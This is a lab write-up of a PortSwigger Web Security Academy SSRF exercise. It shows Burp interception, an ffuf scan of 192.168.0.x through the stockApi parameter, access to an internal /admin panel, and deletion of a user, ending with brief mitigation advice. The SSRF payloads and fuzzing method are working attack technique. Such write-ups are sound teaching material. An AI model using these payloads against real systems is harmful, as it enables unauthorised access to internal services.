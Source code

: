 
<p align="center">
  <img src="./screenshots/ssrf_logo.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 22.04.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SSRF (`Non-Blind Internal SSRF`)

---

> The `SSRF` vulnerability is contained in the `check stock` function, which sends a request to the server and then receives a response:

![stock_check](./screenshots/stock_check.png)

![stock_check_answer](./screenshots/stock_check_answer.png)


## 🔍 Request interception

> I intercept the request of this function to the server in `BurpSuite`:

![intercepting_request](./screenshots/intercepting_request.png)

> I use `Hackvertor` extension for easy work with request body in `url encoding`:

```bash

stockApi=<@urlencode>http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> From the request body it is clear that the request goes to the server at `192.168.0.1:8080`.

> I try to change the address and send to `192.168.0.2:8080`:

```bash

stockApi=<@urlencode>http://192.168.0.2:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> Result:

![server_error](./screenshots/server_error.png)

> Ok. I get an error from the server. It takes too long to manually iterate over each address. I'll automate this process using the `ffuf` tool.

> I'll create a file with a request to iterate over a numeric parameter in an address:

> Example of the `ssrf_fuzz` file:
```bash

POST /product/stock HTTP/2
Host: 0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Cookie: session=rz5CE7YTftsF8xCFmwV78Hr4xuxqSmG5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.FUZZ%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

```

> Generate a file with a sequence of numbers from 1 to 255 using the `seq` tool:

```bash

seq 1 255 | sudo tee fuzz_nums.txt

```

```bash

cat fuzz_nums.txt
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16

...
...

```

> I run the enumeration via `ffuf`:

```bash

sudo ffuf -request ssrf_fuzz -w fuzz_nums.txt -mc all -ac

```
> Result:

```bash
________________________________________________

1                       [Status: 200, Size: 3, Words: 1, Lines: 1, Duration: 69ms]
234                     [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 68ms]
:: Progress: [255/255] :: Job [1/1] :: 99 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

```

> request to `192.168.0.234` returned status `404` - `not found`. This means that there is something at this address, but at the current endopoint `/product/stock/check?productId=1`
> the server could not return data. I need to access the admin panel. To do this, I substitute the endpoint `/admin` using a request to `192.168.0.234`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin</@urlencode>

```
> Result:

![admin_panel](./screenshots/admin_panel.png)

> Sending a request to delete user `Carlos`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)

---
## 🧠 Conclusion

> This type of web vulnerability occurs when the server does not filter input data when requested by the user. The server allows on its behalf
> to make a request to another resource or internal service and at the same time return the result of the request with all the data that a regular user should not receive.

> You can protect yourself by allowing specific requests (at a specific URL):

```python

if not url.startswith("https://api.example.com/"):
    reject()

```
> You should also block requests from outside to the local IP addresses of the system (`127.0.0.1`, `0.0.0.0`, `192.168.0.0/16` etc).

